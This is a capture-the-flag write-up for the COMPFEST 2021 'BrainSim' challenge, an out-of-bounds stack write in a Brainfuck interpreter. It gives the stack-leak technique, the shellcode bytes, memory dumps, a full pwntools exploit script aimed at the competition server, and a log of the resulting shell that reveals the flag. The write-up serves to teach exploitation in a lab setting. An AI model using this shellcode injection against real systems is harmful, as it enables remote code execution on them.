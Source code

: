 ## BrainSim

> Points: 500
>
> Solves: 1

### Description:
Heyy! So, I found this BF simulator thing. I thought it's hackable-ish? Because my friend told me there's flag file in it. Maybe you could help me while I'm having my breakfast ? Ehehe...

nc 103.152.242.242 29461

Author: xMaximusKl

Hint: Simple BOF using brainfuck, I wonder what you could with that ? Maybe hanging around in a forbidden place ? :)

### Attachments:
```
brainsim-master-public.zip
```

I was able to start the shell in my local environment but couldn't get the flag from the server during the competition time.
After the competition, I managed to start the shell, and when I checked the binary of the server, the binary of the server and the binary of attachment were different.

```
$ ls -l
total 48
-rwxr-xr-x 1 0 0 21064 Sep 12 04:47 BrainSim　　　<--- The size is different.
-rw-r--r-- 1 0 0  2261 Sep 12 04:47 BrainSim.c
```

When I checked with the administrator on Discord, it seems that the administrator forgot to update the attachment.

I got the binaries from the server and checked the difference between the two binaries.
The following parts of the Interpret function are different. There is one more getchar () in the attachment binary.

```
          case 0x2c:
            iVar2 = getchar();
            mem[mp] = (char)iVar2;
            getchar();                  <----- this part
            ip = ip + 1;
            break;
```

Attach the binary `BrainSim_server` I got from the server.


## Analysis:

This is a challenge with Brainfuck.
Since NX is disabled, launch the shellcode on the stack BoF.

```
$ checksec BrainSim
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Brainfuck uses the following variables.
```
ip:     Instruction pointer
ip_end: End position of instruction pointer
mp:     Memory pointer
brack:  Flag to check the number before and after the bracket
```

Since the range of the value of `mp` is not checked when executing the Brainfuck code, you can read the value on the stack and write arbitrary data by specifying the following character string.
```
".,[>.,]"
```

## Solution:

First I used `., [>.,]` To leak the stack address (mp = 0 address).

```
0x7fffffffddb0:	0x0000000000000000	0x0000000000000000
0x7fffffffddc0:	0x0000000000000000	0x0000000000000000
0x7fffffffddd0:	0x00007fffffffdee0	0x00007fffffffd5d0　<--- Leak this 0x7fffffffd5d0.
0x7fffffffdde0:	0x00007fffffffde00	0x00005555555556ed
0x7fffffffddf0:	0x00007fffffffdee0	0x3100000000000000
0x7fffffffde00:	0x0000555555555700	0x00007ffff7a03bf7
```

Then I used `, [>,]` to write the shellcode and then change the return address of the `Interpret` function to the leaked stack address.

```
0x7fffffffd5d0:	0x622fb84852d23148	0x485068732f2f6e69  <--- shellcode
0x7fffffffd5e0:	0x48e689485752e789	0x414141050f3b428d
0x7fffffffd5f0:	0x4141414141414141	0x4141414141414141
...
0x7fffffffddb0:	0x4141414141414141	0x4141414141414141
0x7fffffffddc0:	0x4141414141414141	0x4141414141414141
0x7fffffffddd0:	0x4242424242424242	0x4242424242424242
0x7fffffffdde0:	0x4242424242424242	0x00007fffffffd5d0　<--- Change from 0x5555555556ed to 0x7fffffffd5d0
0x7fffffffddf0:	0x00007fffffffdee0	0x3100000000000000
0x7fffffffde00:	0x0000555555555700	0x00007ffff7a03bf7
```

I can start the shell by returning from the `Interpret` function to the `main` function with the Exit function.


## Exploit code:
```python
from pwn import *

#context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './BrainSim'
elf  = ELF(BINARY)

shellcode = '\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x8d\x42\x3b\x0f\x05'

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "103.152.242.242"
  PORT = 29461
  s = remote(HOST, PORT)
  REMOTE = True
else:
  s = process(BINARY)
  libc = elf.libc
  REMOTE = False

def Interpret_code(code):
  s.sendlineafter("Input : ", "1")
  s.sendlineafter("Code : ", code)

def Make_string(s0):
  s1 = ""
  for i in range(len(s0)):
    s1 += s0[i] + s0[i]
  return s1

if REMOTE:
  # stack leak
  Interpret_code(".,[>.,]")
  s.sendline("A"*0x810+"\x00"*2)

  s.recvuntil("Output: " + "\x00"*0x800)
  s.recv(8)
  stack_leak = u64(s.recv(8))
  print "stack_leak =", hex(stack_leak)

  Interpret_code(",[>,]")
  buf  = shellcode
  buf += "A"*(0x800 - len(buf))
  buf += "B"*0x18
  buf += p64(stack_leak)
  s.sendline(buf)

else:
  # stack leak
  Interpret_code(".,[>.,]")
  s.sendline("AA"*0x810+"\x00")

  s.recvuntil("Output: " + "\x00"*0x800)
  s.recv(8)
  stack_leak = u64(s.recv(8))
  print "stack_leak =", hex(stack_leak)

  Interpret_code(",[>,]")
  buf  = Make_string(shellcode)
  buf += "AA"*(0x800 - len(buf)/2)
  buf += "BB"*0x18
  buf += Make_string(p64(stack_leak)[:-1]) + "\n"
  s.sendline(buf)

s.interactive()

```

## Results:
```bash
mito@ubuntu:~/CTF/COMPFEST_CTF_2021/Pwn_BrainSim/brainsim-master-public/public$ python solve.py r
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_BrainSim/brainsim-master-public/public/BrainSim'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 103.152.242.242 on port 29461: Done
stack_leak = 0x7ffd02a75070
[*] Switching to interactive mode

Output: $ ls -l
total 48
-rwxr-xr-x 1 0 0 21064 Sep 12 04:47 BrainSim
-rw-r--r-- 1 0 0  2261 Sep 12 04:47 BrainSim.c
drwxr-xr-x 2 0 0  4096 Sep 12 04:40 bin
drwxr-xr-x 2 0 0  4096 Sep 12 04:40 dev
-r--r--r-- 1 0 0    56 Sep 12 04:47 flag.txt
lrwxrwxrwx 1 0 0     7 Sep 12 04:40 lib -> usr/lib
lrwxrwxrwx 1 0 0     9 Sep 12 04:40 lib32 -> usr/lib32
lrwxrwxrwx 1 0 0     9 Sep 12 04:40 lib64 -> usr/lib64
lrwxrwxrwx 1 0 0    10 Sep 12 04:40 libx32 -> usr/libx32
-rwxr-xr-x 1 0 0   338 Sep 12 04:47 run.sh
drwxr-xr-x 6 0 0  4096 Sep 12 04:40 usr
$ cat flag.txt
COMPFEST13{570PPPP_I7___937_0U7_0f_my_H34d___b6fc1236d6}
```

The administrator sent me the Exploit code, so I'll attach `exploit.py`.
Thank you for your polite response even after the competition.

## Reference:
https://en.wikipedia.org/wiki/Brainfuck
https://www.notion.so/RCTF-2020-acfcdd0de8534ed0a7caef3549088281

